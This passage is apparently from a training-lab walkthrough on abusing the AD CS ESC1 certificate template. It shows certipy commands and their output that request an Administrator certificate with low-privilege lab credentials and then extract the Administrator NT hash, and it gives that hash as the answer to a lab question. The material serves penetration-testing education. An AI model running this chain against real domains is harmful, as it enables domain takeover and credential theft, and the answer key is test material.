Subsequently, to abuse `ESC1`, students need to use the `req` command of `certipy`, specifying the template `ESC1` for the `-template` option and the `UPN` `Administrator` for the `-upn` option; students will attain a `PFX` certificate for the `Administrator` user:

Code: shell

```shell
certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template ESC1 -upn Administrator
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template ESC1 -upn Administrator

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 63
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Utilizing the certificate, students need to use the `auth` command of `certipy` to request a TGT for `Administrator` and `Un-PAC-the-hash` within it; students will attain the NT hash `2b576acbe6bcfda7294d6bd18041b8fe`:

Code: shell

```shell
certipy auth -pfx administrator.pfx -domain lab.local
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy auth -pfx administrator.pfx -domain lab.local

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@lab.local': aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe
```

Answer: `2b576acbe6bcfda7294d6bd18041b8fe`

# ESC1

## Question 2
